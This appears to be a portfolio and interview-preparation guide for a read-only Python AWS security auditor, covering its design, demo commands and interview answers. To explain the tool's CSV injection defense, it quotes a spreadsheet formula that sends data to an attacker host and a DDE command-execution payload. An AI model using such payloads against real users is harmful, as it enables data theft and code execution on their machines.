

# Collumbus: Security Portfolio & Technical Interview Guide

> **Target Audience:** Portfolio reviewers, technical interviewers, and hiring managers evaluating Lance (BSIT Network & Security).  
> **Project Repository:** `C:\Projects\collumbus`  
> **Tech Stack:** Python 3.12+, Boto3, Pydantic v2, Streamlit, PyYAML, Mypy, Bandit, Pip-Audit, Pytest, Ruff.

---

## 1. Executive Summary & 30-Second Elevator Pitch

> *"Collumbus is a read-only AWS cloud security configuration auditor written in Python. I built it to solve a common problem in cloud security learning: understanding how cloud audits actually work under the hood without needing an active AWS account, incurring cloud bills, or accidentally modifying live cloud infrastructure. It features a dual-source collector architecture (simulated demo fixtures and official read-only Boto3 calls) feeding an immutable Pydantic rule engine. The engine audits S3 public access and encryption, IAM privilege escalation risks, and CloudTrail logging coverage, outputting to validated JSON/CSV reports and an interactive 5-page Streamlit web dashboard. The entire codebase is fortified with Mypy static typing, Bandit AST security scanning, CSV injection defenses, automated credential redaction, and 94% test coverage across 143 tests."*

---

## 2. System Architecture & Data Flow

Collumbus follows a decoupled, pipeline architecture where collectors normalize cloud resources into standard internal models before passing them to the audit engine.



---

## 3. Top Security Engineering Decisions (Interview Talking Points)

When discussing Collumbus in security interviews, emphasize these seven intentional design choices:

### 1. Read-Only Enforcement & Zero-Modification Guarantee
* **The Decision:** Collumbus never creates, modifies, disables, or deletes any cloud resource. It does not perform auto-remediation.
* **Why it matters:** Auto-remediation in auditing tools can break production systems (e.g., turning on S3 Block Public Access on a public web asset will take down client websites). Safe security engineering separates detection from remediation.
* **Talking point:** *"I designed Collumbus strictly as a detective control. It produces human-readable remediation guidance and least-privilege IAM policies, keeping humans in the loop for remediation decisions."*

### 2. Failing Closed on API Errors & Coverage Gaps
* **The Decision:** If an API call fails due to `AccessDenied`, `Throttling`, or a network timeout, Collumbus never defaults to a "Pass" or silently ignores the resource. It generates an `ERROR` finding and records a `CoverageGap`.
* **Why it matters:** In security, lack of visibility is not proof of safety. A scan missing critical checks cannot be marked complete (`is_complete = False`).
* **Talking point:** *"A common flaw in naive security scripts is treating unreadable resources as clean. Collumbus treats visibility gaps as risk items because an attacker could exploit a blind spot."*

### 3. Automated Secret Redaction (Evidence & Logs)
* **The Decision:** All sensitive credentials (AWS Access Keys `AKIA...`, Secret Access Keys, Session Tokens, and Bearer tokens) are automatically redacted in both finding evidence and logging handlers via regex replacement with `[REDACTED]`.
* **Why it matters:** Cloud security auditors frequently ingest configuration objects containing accidentally committed secrets or tokens. If the audit report leaks those credentials, the audit tool becomes an attack vector.
* **Talking point:** *"I built recursive redaction into the Pydantic model validator and Python logging stream so that credentials can never be leaked to terminal output, disk artifacts, or dashboards."*

### 4. CSV Formula Injection (Formula Hashing) Defense
* **The Decision:** When exporting findings to CSV, all cell values starting with formula trigger characters (`=`, `+`, `-`, `@`, `\t`, `\r`) are safely neutralized by prepending a single quote (`'`).
* **Why it matters:** Attackers often name cloud resources malicious strings like `=HYPERLINK("http://attacker.com/leak?data="&A1, "Click")`. When an auditor opens the CSV report in Microsoft Excel or Google Sheets, the spreadsheet software executes the formula (CWE-1236).
* **Talking point:** *"I implemented RFC-compliant cell sanitization in the CSV exporter to prevent remote code execution or data exfiltration through spreadsheet software."*

### 5. Deterministic, Stable Finding IDs (Cross-Scan Tracking)
* **The Decision:** Each finding ID is computed as the first 16 hex characters of a SHA-256 hash over `[rule_id, account_id, region, resource_id]`.
* **Why it matters:** In enterprise vulnerability management, findings need to be tracked over time to calculate Mean Time to Remediate (MTTR), identify recurring issues, and detect regressions. Random UUIDs break historical diffing.
* **Talking point:** *"By using deterministic SHA-256 finding hashes, Collumbus tracks finding lifecycles across scans—distinguishing newly introduced vulnerabilities from persistent ones."*

### 6. Standard AWS Credential Chain Delegation
* **The Decision:** Collumbus never asks for AWS secret keys via command-line arguments or stores them in local text files. It delegates authentication entirely to `boto3.Session`.
* **Why it matters:** Hardcoding or accepting credentials in flags exposes them in shell history (`~/.bash_history`), process listings (`Get-Process`), and memory dumps. Delegating to Boto3 leverages standard environment variables, credential files, SSO, and EC2/ECS IAM roles.
* **Talking point:** *"I leveraged the official Boto3 credential provider chain, ensuring zero credentials ever touch command-line arguments or application configuration files."*

### 7. Multi-Tier Static Verification (DevSecOps Quality Gate)
* **The Decision:** Code quality is verified through five distinct tools:
  - **Mypy:** Enforces static typing across 100% of source files with PEP 561 (`py.typed`).
  - **Bandit:** AST-level security analyzer detecting CWE-78 (command injection) and CWE-259 (hardcoded credentials).
  - **Pip-Audit:** Scans dependencies against the Python Packaging Advisory Database for CVEs.
  - **Ruff:** High-speed linting enforcing PEP 8, import sorting, and code modernization.
  - **Pytest:** 143 automated tests delivering 94% test coverage with 100% coverage on core security rules.
* **Talking point:** *"Before any code is committed, it passes a multi-tier CI/CD quality gate checking types, security patterns, dependencies, and automated regression tests."*

---

## 4. End-to-End Live Demonstration Script

Use this script during live interviews or project presentations:

### Step 1: Open PowerShell and Activate Virtual Environment
```powershell
cd C:\Projects\collumbus
.\.venv\Scripts\Activate.ps1
```

### Step 2: Validate the Rule Configuration
Demonstrate schema validation and safety checks on `config/rules.yaml`:
```powershell
python -m collumbus validate-config
```
*Expected Output:* `Configuration valid: 4 rules loaded from ...`

### Step 3: Run the Simulated Demo Audit (No AWS Account Required)
Show how an audit runs against simulated multi-resource environments:
```powershell
python -m collumbus demo-scan --json scan_demo.json --csv scan_demo.csv
```
*Key features to highlight in output:*
- Summary counts: Resources scanned, rules evaluated, total findings.
- Clear separation of `FAIL`, `PASS`, and `ERROR` verdicts.
- Machine-readable JSON artifact and formula-sanitized CSV export.

### Step 4: Inspect the AWS Live Audit Safeguards
Demonstrate safe credential handling when live AWS credentials are not configured:
```powershell
python -m collumbus aws-scan
```
*Expected Output:*
```text
Error: AWS credentials not found. Configure them with 'aws configure' or set AWS_ACCESS_KEY_ID and AWS_SECRET_ACCESS_KEY.
```
*Talking point:* *"Notice how it exits cleanly with actionable instructions rather than throwing an unhandled stack trace or crashing."*

### Step 5: Launch the Interactive Streamlit Web Dashboard
Launch the dashboard to demonstrate the visual reporting interface:
```powershell
python -m collumbus dashboard
```
*Walk the interviewer through the 5 pages:*
1. **Overview:** Executive summary metrics, severity distributions, and scan metadata.
2. **Findings:** Interactive filterable table with expandable details, full evidence, risk explanation, and remediation commands.
3. **Coverage:** Visual audit of scanned resources and explicit reporting of `CoverageGap` items.
4. **History:** Historical trend lines and cross-scan finding diffing (identifying new vs resolved vulnerabilities).
5. **Rules:** Interactive rule documentation showing rule titles, IDs, resource types, and default severities.

### Step 6: Run the Full Automated Security & Quality Verification Suite
Prove the production-grade quality of the code:
```powershell
# 1. Run all 143 unit and integration tests with coverage
python -m pytest --cov=collumbus --cov-report=term-missing

# 2. Run Mypy static type checker
mypy src tests

# 3. Run Bandit security scanner
bandit -r src

# 4. Run pip-audit supply chain vulnerability checker
pip-audit

# 5. Run Ruff linter and formatter
ruff check .
ruff format --check .
```

---

## 5. Resume Bullet Points for Lance

You can adapt these bullet points for your resume or LinkedIn profile:

- **Cloud Security Auditor (Collumbus) | Python, Boto3, Pydantic, Streamlit**
  - Engineered a read-only AWS security auditor in Python evaluating cloud resources against CIS-aligned security benchmarks across S3, IAM, and CloudTrail services.
  - Implemented dual-source data collection supporting both offline simulated JSON fixtures (for safe learning/testing) and live AWS inspection via official Boto3 SDK APIs.
  - Designed automated secret redaction for finding evidence and logging streams, neutralizing credentials and preventing data leakage across audit reports.
  - Mitigated CSV Formula Injection (CWE-1236) by implementing cell sanitization for spreadsheet exports, preventing remote code execution upon opening audit findings.
  - Built an interactive 5-page Streamlit web dashboard featuring scan history diffing, MTTR tracking, coverage gap inspection, and remediation instructions.
  - Fortified codebase with a 5-tier DevSecOps pipeline achieving 94% test coverage across 143 Pytest tests, Mypy static typing (PEP 561), Bandit AST security checks, and pip-audit CVE verification.

---

## 6. Technical Interview Deep-Dive Q&A

### Q1: Why did you build a custom auditor instead of just using AWS Config or Prowler?
> *"Tools like AWS Config and Prowler are excellent enterprise platforms, but they operate as black boxes for students and junior engineers. I wanted to understand the underlying mechanics of cloud auditing: How do you parse IAM policy documents for wildcard actions? How do you distinguish an unconfigured S3 bucket from an AccessDenied API call? By building Collumbus from scratch, I gained deep hands-on mastery of the Boto3 SDK, the AWS security model, and defensive software design."*

### Q2: How does Collumbus detect wildcard permissions in IAM policies?
> *"In check `IAM-001`, the rule inspects customer-managed IAM policies. It parses the policy document, iterates through every `Statement` block, and looks for `Effect: Allow` combined with `Action: "*"` or `Action: ["*"]` and `Resource: "*"`. It also flags administrative service-level wildcards like `iam:*` or `s3:*` on wildcard resources, which violate the principle of least privilege."*

### Q3: What happens if an IAM role has permission to list buckets, but not to read their public access block configuration?
> *"This is a classic cloud auditing challenge. Naive tools might crash with an unhandled exception or erroneously report that the bucket is secure. Collumbus catches the `ClientError` with `AccessDenied`, marks the attribute as a `FetchError`, and creates an `ERROR` finding with the message: 'Could not determine Block Public Access status: AccessDenied'. In addition, it marks the scan's `is_complete` flag as `False`. This ensures security teams never get a false sense of security when permissions are incomplete."*

### Q4: How does your tool protect against CSV injection?
> *"CSV injection occurs when untrusted data exported to a spreadsheet starts with formula trigger characters such as `=`, `+`, `-`, or `@`. An attacker who names an S3 bucket `=cmd|' /C calc'!A0` could trigger arbitrary code execution on a security analyst's workstation when they open the report. In `src/collumbus/reporting/csv_report.py`, the `_sanitize_cell` function checks every string value and prepends a single apostrophe (`'`) if it begins with any of those characters, instructing spreadsheet software to treat the cell strictly as plain text."*

### Q5: How do you handle pagination in AWS API calls?
> *"Many AWS resources exceed standard page limits (e.g., accounts with hundreds of IAM policies or trails). In `src/collumbus/collectors/aws.py`, wherever supported, Collumbus uses Boto3's `get_paginator('list_policies')` to automatically paginate through result sets using `paginate().build_full_result()`, ensuring full resource discovery without missing unpaged assets."*
